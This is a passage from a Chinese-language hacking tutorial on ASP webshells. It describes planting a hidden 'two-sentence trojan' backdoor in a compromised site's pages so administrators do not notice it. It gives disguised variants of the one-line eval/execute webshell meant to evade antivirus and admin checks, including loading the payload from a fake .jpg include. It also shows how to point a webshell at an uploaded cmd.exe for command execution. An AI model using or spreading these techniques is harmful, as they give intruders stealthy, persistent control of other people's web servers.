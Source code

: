 至于为什么要用两句话木马呢,是由于使我们的后门更加隐蔽.

我也试过用一句话插入WellShell的某个ASP文件里面,可是访问时经常出错,而插入两句话木马服务端却可以正常访问了,对站点的页面无任何影响.

这样就达到了隐蔽性更强的目的了,他管理员总不会连自己的网页文件都删了吧.

现在我的WellShell都有这样的后门.选择要插入两句话木马的ASP文件要注意,选一些可以用IE访问的ASP文件,不要选conn.asp这样的文件来插入.

当然,连接两句话木马的客户端仍然是用一句木马的客户端,不用修改.

## 一句话免杀：

### 一：变形法

比如：eval(request(“#”))这样的马儿呢，一般情况下是不被杀的。但实际上，经常杀毒软件会把eval(request列为特征码。所以我们变形一下

```csharp
E=request(“id”)


eval(E)
1234
```

这样可达到免杀的目的。

例如：<%execute request(“1”)%> 变形后：

<%E=request(“1”)

execute E%>

当然，这种变形是最好做的。

介绍第二种方法：因为很多管理员很聪明，它会检查ASP文件中的execute和eval函数。所以呢，不管你怎么反编译，它最终总是要用其中的一个函数来解释运行，所以还是被发现了。好么，我们用外部文件来调用。建一个a.jpg或者任何不被发现的文件后缀或文件名。写入 execute(request(“#”))当然，你可以先变形后现放上去。然后在ASP文件中插入

来引用它，即可。

不过，管理员可以通过对比文件的方式找到修改过的文件，不过这种情况不多。

在WEBSHeLL中使用命令提示

在使用ASP站长助手6.0时点击命令提示符显示“没有权限”的时候，可以使用ASP站长助手上传CMD.exe到你的WEBSHELL目录（其它目录也行，把上传以后的CMD.exe绝对路径COPY出来），再修改你的WEBSHELL找到调用CMD.EXE的代码。原来的代码如下

```csharp
.exec("cmd.exe /c "&DefCmd).stdout.readall
```

修改为

.exec(“你想上传的cmd.exe绝对路径” /c"&DefCmd).stdout.readall

比如你上传到的目录是D：\web\www\cmd.exe,那么就修改成

.exec(“D：\web\www\cmd.exe /c”&DefCmd).stdout.readall

## **支持变异菜刀连接以过安全狗,过啊D文件扫描的一句话**
